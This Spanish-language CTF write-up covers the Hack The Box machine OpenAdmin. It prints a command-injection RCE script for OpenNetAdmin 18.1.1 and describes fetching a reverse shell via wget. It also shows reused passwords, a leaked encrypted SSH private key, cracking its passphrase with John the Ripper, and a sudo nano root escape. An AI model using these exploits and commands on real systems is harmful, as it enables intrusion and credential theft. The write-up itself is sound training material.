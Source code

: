 ```yaml
---
title: "Write Up – OPENADMIN"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/OpenAdmin.png"
categories:
  - WriteUp
---
```


OS 				 | LINUX
Desarrollado por | dmw0ng
Dificultad 		 | Fácil
Liberación 		 | 4 enero 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.171 y luego con el comando nmap -sCV -p22,80 10.10.10.171 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 15:01 BST
Nmap scan report for 10.10.10.171
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=38520%PV=Y%DS=2%DC=T%G=Y%TM=5E9DAB7
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT ADDRESS
1 103.86 ms 10.10.14.1
2 104.25 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 41.01 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la dirbuster para buscar paginas ocultas y poder acceder a ellas. Simultaneamente hacemos Fuzzing.

- Music
- Ona
- Artwork
- Marga
- Sierra

Al entrar a cada una de las webs vemos que ona es OpenNetAdmin de versión 18.1.1 buscando en las bases de datos de exploit encontramos un CVE de ejecución remota de código, por lo que se busca el exploit y se encuentra en https://www.exploit-db.com/exploits/47691

```
#!/bin/bash

URL="${1}" while true;do echo -n "$ "; read cmd url --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n done
```

## 1° Shell

Al archivo del exploite le damos permiso 744 y lo ejecutamos de la siguiente manera ./archivo.sh http://10.10.10.171/ona/login.php con esto nos abrirá una terminar con opciones reducidas y difícil de navegar dentro de la misma.

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget

Navegando con shell podemos ver que existe 2 usuarios jimmy y joanna, y los archivos de configuración de la web OpenNetAdmin, de acuerdo a la documentación de la web, todo archivo de configuración se encuentra en **local/config**, es acá donde se encuentra una password n1nj4W4rri0R! en database_settings.inc.php, normalmente reutilizan las contraseñas por lo que se intentará ingresar con los usuarios encontrados.

## 2° Shell

El password sirve para acceder vía ssh con el usuario jimmy, pero este usuario no posee la flag de user, por lo que se deberá ver cómo escalar los privilegios al segundo usuario joanna.

Investigando el **/var/www** encontramos que hay una página interna llamada internal es por ello que se revisa la configuración de los sitios en el apache **/etc/apache2**. Al investigar las configuraciones de apache se encontró que hay un sitio que se accede localmente al puerto 52846 /etc/apache2/sites-enabled/internal.conf

Revisando el código fuente de la página internal vemos el archivo main.php encontramos lo siguiente:

```
<?php
session_start();
if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Esto nos dice que nos mostrará el id_rsa del usuario joanna, existe dos formas obtener esta web
### Vía CURL

Para obtener el id_rsa se ejecuta el comando curl http://127.0.0.1:52846/main.php esto mostrar el id_rsa completo.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Vía SSH TUNELING

Al revisar la web internal, nos damos cuenta que en index.php compara el pass con un hash ‘**00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1**′ en sha512, la cual al desencriptarla obtenemos que la clave es Revealed

Con esto generamos el tunel con el siguiente código desde la maquina atacante **ssh -L1234:127.0.0.1:52846 jimmy@10.10.10.171** esto hace el puerto 1234 de la maquina atacante se vincula con el puerto 52846 permitiendo ver la web

Usamos el usuario jimmy y la clave Revealed obtenidas anteriormente nos devuelve el id_rsa

## 3° SHELL (usuario)

Con el id_rsa se debe desencriptar con John the ripper para ello primero obtenemos el hash del id_rsa con **python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash** luego con ese hash ejecutamos John **john id_rsa.hash –wordlist=/usr/share/wordlists/rockyou.txt** y lo que obtenemos es la contraseña de id_rsa **bloodninjas** e ingresando con **ssh –i id_rsa joanna@10.10.10.171** y obtenemos la primera flag.

## 4° SHELL (root)

Dentro del equipo con el usuario joanna revisamos si tiene algún permiso como root, con el comando sudo -l y vemos que si lo tiene con /bin/nano en el archivo /opt/priv, debido a esto usamos GTFObins para revisar si hay escalada de privilegio con nano. Usando ^R^Xreset; sh 1>&0 2>&0 desde nano podemos escapar de él y obtener un sh de root, obteniendo la ultima flag.

![Racso](https://www.hackthebox.com/badge/image/159593)